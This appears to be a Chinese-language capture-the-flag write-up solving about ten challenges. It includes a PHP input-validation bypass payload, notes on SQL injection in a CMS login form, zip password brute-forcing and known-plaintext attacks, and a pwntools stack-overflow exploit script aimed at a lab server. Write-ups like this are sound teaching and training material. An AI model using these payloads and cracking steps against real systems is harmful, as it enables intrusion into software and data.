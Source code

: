 ## 签到

一个 flash 小游戏

不过跑起来还是挺麻烦的，装了个 360浏览器开兼容模式，再装个 PPAPI 的 flash 才运行起来

打过关后就有 flag 了

A8E5A632E549ECD98E902055B02B10A2

---

## ereg

php代码审计： strpos数组绕过，两种解法:
- 科学计数法
- []数组绕过

代码当时没存：找了个类似题目
```php
<?php
$flag = "flag";
if (isset ($_GET['password'])) {
if (@ereg ("^[1-9]+$", $_GET['password']) === FALSE)
echo '必须输入数字才行';
else if (strpos ($_GET['password'], '#biubiubiu') !== FALSE)
die('Flag: '.$flag);
else
echo '骚年，继续努力吧啊~';
}
?>
```

当时的payload是这样的 http://101.101.101.110:8081/?password=9e9%00*-*

flag{1b38a4ff14824e141f319c8d898e52d2}
提交 1b38a4ff14824e141f319c8d898e52d2

---

## pbootcms

注册账号后登录框存在注入

有个表叫 xxx_flag

进入后找到flag

8fce341a322902400568339b9dcdeb8b

---

## easystego

在图片中间有 2 段 base64 分别解出来就是 flag 了 (我有印象在 BUU 刷到过)

ZmxhZ3tlMDg0ODY1YjY0ZGI0Yg==
flag{e084865b64db4b

2NTAyZDRkM2FkODdlMTE5NDFjfQ==
502d4d3ad87e11941c}

flag{e084865b64db4b502d4d3ad87e11941c}
提交 e084865b64db4b502d4d3ad87e11941c

---

## hardstego

binwalk 分离

得到 压缩包

通过注释知道密码是 RRR+8位数字

直接掩码爆破
RRR?d?d?d?d?d?d?d?d

得到 RRR97126401

结果还是个加密压缩包

明文攻击

又是一个加密压缩包

弱口令

69450992

还有个压缩包

伪加密

010 里面 加密位  9  改为 0

5313ee18175f9bfe75f8e52eca293471
flag{5313ee18175f9bfe75f8e52eca293471}

---

## easy_re

ida 打开直接 string 就有了

A9DF04B4A7BB1DD8B6614EBC06D308B1

---

## PWN

64位栈溢出 ret2txt攻击方式的利用

```py
from pwn import *

context.log_level = "debug"

context.arch = "amd64"

#io = process("./seeya")
io = remote("101.101.101.108",18000)

io.recv()

backdoor = 0x4005b6


payload = b"A"*136 + p32(backdoor)

pause()
io.send(payload)

#pause()
input()
io.interactive()
```

cbc4a8eadd78b971b992d7bc79785a3c

---

## Registry

用这个命令导入到注册表
```
REG load HKLM\TempHive "C:\Users\User\Desktop\Registry/$R4YMJQ0.hive"
```

疯狂查找关键字
```
flag
f-l-a-g
f_l_a_g
f.l.a.g
exec
run
```

在这个项里找到 疑似 flag 的内容

HKEY_LOCAL_MACHINE\TempHive\Microsoft\Windows\CurrentVersion\Run

C:\Program Files (x86)\Windows NT\TableTextService\c05e3b3d4e90c9ffb6b93764d6964874.exe

c05e3b3d4e90c9ffb6b93764d6964874

---

## easyRSA

```py
from Crypto.Util.number import *
from Crypto.Random.random import *
from flag import flag

p = getPrime(128)
q = getPrime(128)
n = p*q
e = 65537

flag1 = bytes_to_long(flag[:19])
flag2 = bytes_to_long(flag[19:])

print 'n:'+str(n)
print pow(flag1,e,n)
print pow(flag2,e,n)

# output
# n:82748279383502845283943271120712436408030814624973629060064917325126552245423
# 15927805675061473064882443446714896619253999932379995876769453683208368763004
# 82625508300370326497174411508412477823364297852320058440615952290270370565101
```

用 yafu 跑 p、q

给出了 e、n、c 直接上脚本解2遍拼接就行

flag{63a8817f4512d4f0efd58e7729044546}
